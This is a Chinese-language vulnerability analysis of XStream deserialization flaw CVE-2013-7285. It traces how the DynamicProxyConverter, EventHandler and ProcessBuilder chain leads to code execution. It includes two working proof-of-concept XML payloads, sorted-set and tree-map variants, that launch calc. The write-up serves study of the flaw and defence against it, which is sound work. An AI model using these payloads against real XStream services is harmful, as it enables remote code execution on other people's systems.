


# Xstream CVE-2013-7285 反序列化
- [Xstream CVE-2013-7285 反序列化](#xstream-cve-2013-7285-反序列化)
  - [前置知识](#前置知识)
  - [Xstream解析流程](#xstream解析流程)
  - [CVE-2013-7285](#cve-2013-7285)
    - [DynamicProxyConverter](#dynamicproxyconverter)
    - [Stored-Set](#stored-set)
    - [tree-map](#tree-map)
  - [参考](#参考)
## 前置知识

Xstream主要是从将java对象反序列化为XML或者XML反序列化为JAVA对象.

```java
import com.thoughtworks.xstream.XStream;

public class Codelab {

    public static class test{
        public int age;
        public String name;
        public void setAge(int age) {
            this.age = age;
        }
        public void setName(String name){
            this.name = name;
        }
        public int getAge(){
            return this.age;
        }
        public String getName(){
            return this.name;
        }
    }
    public static void main(String[] args) {
        XStream stream = new XStream();
        test test = new test();
        test.setAge(20);
        test.setName("tt");
        String xml = stream.toXML(test);
        System.out.println(xml);
        System.out.println("===============================");
        test test2 = (test)stream.fromXML(xml);
        System.out.println(test2);
    }
}
```

结果如下

```
<Codelab_-test>
  <age>20</age>
  <name>tt</name>
</Codelab_-test>
===============================
Codelab$test@527740a2

Process finished with exit code 0
```
## Xstream解析流程

直接来到`com/thoughtworks/xstream/core/TreeUnmarshaller.java`的`start`方法,在这之前的调用栈如下


主要是初始化一个Xpath的解析上下文`context`,注册了一些转换器到该`context`中,最后调用`context.start`方法开始解析xml数据,解析核心即根据标签来寻找内置的`convert`转换器,转换器再通过其`unmarshal`方法来获取对应的对象,然后再遍历子节点来获取对应的参数,最后设置好参数后返回.

## CVE-2013-7285

Xstream的转换器中有一个为`DynamicProxyConverter`的转换器,即支持将XML内的数据转换为动态代理类.而当程序调用了`dynamic-proxy`标签内的`interface`标签指向的接口类声明的方法时,就会通过动态代理机制代理访问`dynamic-proxy`标签内`handler`标签指定的类方法,利用这个机制,攻击者可以构造恶意的XML内容,即`dynamic-proxy`标签内的`handler`标签指向如`EventHandler`类这种可实现任意函数反射调用的恶意类,`interface`标签指向目标程序必然会调用的接口类方法,最后当攻击者从外部输入该恶意XML内容后即可触发反序列化漏洞,达到任意代码执行的目的.

**影响范围:**

1.4.x<=1.4.6 or 1.4.10

**POC:**

```java
      XStream stream = new XStream();
        String xml =                 "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "        <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd</string>\n" +
                "                    <string>/C</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "            <action>start</action>\n" +
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>";

        stream.fromXML(xml);
```

### DynamicProxyConverter

该转换器的`unmarshal`方法关键如下,获取节点为`interface`标签的值所指定的接口(即java.lang.Comparable),将其放入一个数组中,后续再转化为Class对象数组用于创建动态代理,然后继续再遍历子节点,当遇到`handler`标签时,再通过`handler`标签获取动态代理类的调度处理器Handler(即java.beans.EventHandler).



然后通过`Proxy.newProxyInstance`创建一个代理.

在转化调度处理器为java对象时继续使用`context.convertAnother`,在`convertAnother`中在mapper中遍历获取到`EventHanlder`对应的转换器为`ReflectionConverter`即反射转换器,然后传入`convert`中进行转换.

在`convert`中进行了一个缓存操作,然后判断有无`reference`标签,无的话根据当前的引用(`/sorted-set/dynamic-proxy/handler`)调用父类的`convert`进行转换得到result.

在父类的`convert`里最后来到`instantiateNewInstance`中利用反射返回了我们指定的`EventHandler`class对象.

后续操作则是类似操作,继续根据子节调用转换器转换对应的class对象(如target指定的`java.lang.ProcessBuilder`)和调用对应转换器获取我们设置action和参数.
获取到参数之后会返回`AbstractReflectionConverter.java`中的`doUnmarshal`中再利用反射设置`ProcessBuilder`对应的参数,至此动态代理类则设置完毕,等待触发.

### Stored-Set
而代理类触发则需要对应的接口被调用,在poc中设置的接口为`java.lang.Comparable`,而触发该接口的点在于Poc中的`stored-set`标签,该标签的类型为`java.util.SortedSet`,即一个有序集合,而对应的转换器则为`TreeSetConverter`.
  
该`convert`会读取`stored-set`标签下的子节点,根据子节点对应的convert来反序列化其获取对应的对象,然后将其放入一个集合中,第一个元素即为我们指定的动态代理程序,而在第二个元素即我们写入的string字符串`foo`,放入集合时就会调用`java.lang.Comparable`接口的实现方法与第一个元素进行比较从而触发之前设置的动态代理程序造成RCE.
### tree-map
根据触发的方式不同还有一种利用`tree-map`标签来触发代理程序.
```xml
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```
## 参考

https://www.cnblogs.com/nice0e3/p/15046895.html  
https://xz.aliyun.com/t/10001  
https://www.mi1k7ea.com/2019/10/21/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x02-XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E